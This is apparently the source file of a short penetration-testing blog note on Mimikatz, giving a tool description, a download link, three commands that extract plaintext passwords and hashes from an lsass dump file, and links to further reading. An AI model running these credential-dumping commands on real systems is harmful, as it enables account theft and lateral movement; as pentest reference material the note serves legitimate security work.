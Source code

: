```yaml
---
layout: single
classes: wide
author_profile: true
read_time: true
share: true
related: true
title:  "Internal Infrastructure Pentest - Mimikatz"
date:   2019-06-22 15:55:00 +1000
categories:
  - Internal Pentest
  - Internal Infrastructure Pentest
  - Network Pentest
tags:
  - Mimikatz
  - Passwords
  - Password Cracking
  - Windows Security
  - Password Cracking
  - Foothold
  - Active Directory Hacking
---
```


<b>Mimikatz:</b> mimikatz is a tool gentilkiwi made to learn C and make somes experiments with Windows security. It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. mimikatz can also perform pass-the-hash, pass-the-ticket or build Golden tickets.

Download: https://github.com/gentilkiwi/mimikatz/releases

Commands to run on lsass dump file:
  - mimikatz # privilege::debug
  - mimikatz # sekurlsa::minidump lsass.dmp
  - mimikatz # sekurlsa::logonPasswords

Blogs:
  - https://adsecurity.org/?page_id=1821
  - https://www.sans.org/reading-room/whitepapers/detection/mimikatz-overview-defenses-detection-36780
  - https://www.offensive-security.com/metasploit-unleashed/mimikatz/
  - http://blog.gentilkiwi.com/mimikatz
